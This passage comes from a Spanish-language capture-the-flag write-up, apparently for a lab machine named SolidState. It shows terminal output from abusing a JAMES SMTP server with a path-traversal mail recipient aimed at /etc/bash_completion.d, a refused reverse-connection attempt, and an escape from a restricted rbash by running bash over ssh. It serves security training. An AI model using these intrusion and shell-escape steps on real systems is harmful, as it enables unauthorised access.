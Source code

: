 ```bash
-rbash: $'\221\222\204m\307{\244\002\003I\003posL\004hostq~\002L\004userq~\002xp': command not found
-rbash: @team.pl>
Message-ID: <9152149.0.1635800669443.JavaMail.root@solidstate>
MIME-Version: 1.0
Content-Type: text/plain; charset=us-ascii
Content-Transfer-Encoding: 7bit
Delivered-To: ../../../../../../../../etc/bash_completion.d@localhost
Received: from 10.10.14.23 ([10.10.14.23])
          by solidstate (JAMES SMTP Server 2.3.2) with SMTP ID 285
          for <../../../../../../../../etc/bash_completion.d@localhost>;
          Mon, 1 Nov 2021 17:03:49 -0400 (EDT)
Date: Mon, 1 Nov 2021 17:03:49 -0400 (EDT)
From: team@team.pl

: No such file or directory
(UNKNOWN) [10.10.14.23] 443 (https) : Connection refused
-rbash: $'\r': command not found
mindy@solidstate:~$
mindy@solidstate:~$ whoami
-rbash: whoami: command not found
mindy@solidstate:~$ 
```

Vemos que nos contramos en una `rbash` y nos limita los comandos que podemos ejecutar y podemos comprobarlo si ingresamos a la ruta `/home` del usuario `mindy` y vemos un directorio de nombre `bin` el cual tiene los binarios que podemos utilizar `cat`, `env` y `ls`.

```bash
mindy@solidstate:~$ ls -l
total 8
drwxr-x--- 2 mindy mindy 4096 Apr 26  2021 bin
-rw------- 1 mindy mindy   33 Nov 18  2020 user.txt
mindy@solidstate:~$ ls -l bin/
total 0
lrwxrwxrwx 1 root root 8 Aug 22  2017 cat -> /bin/cat
lrwxrwxrwx 1 root root 8 Aug 22  2017 env -> /bin/env
lrwxrwxrwx 1 root root 7 Aug 22  2017 ls -> /bin/ls
mindy@solidstate:~$
```

Podríamos tratar de escapar de la `rbash` desde el comando `ssh`:

```bash
❯ ssh mindy@10.10.10.51 "whoami"
mindy@10.10.10.51's password: 
mindy
```

Vemos que a través de la herramienta `ssh` podemos ejecutar comandos que escapan de la `rbash`; asi que vamos a ejecutar una `bash`:

```bash
❯ ssh mindy@10.10.10.51 bash
mindy@10.10.10.51's password: 
whoami
mindy
```
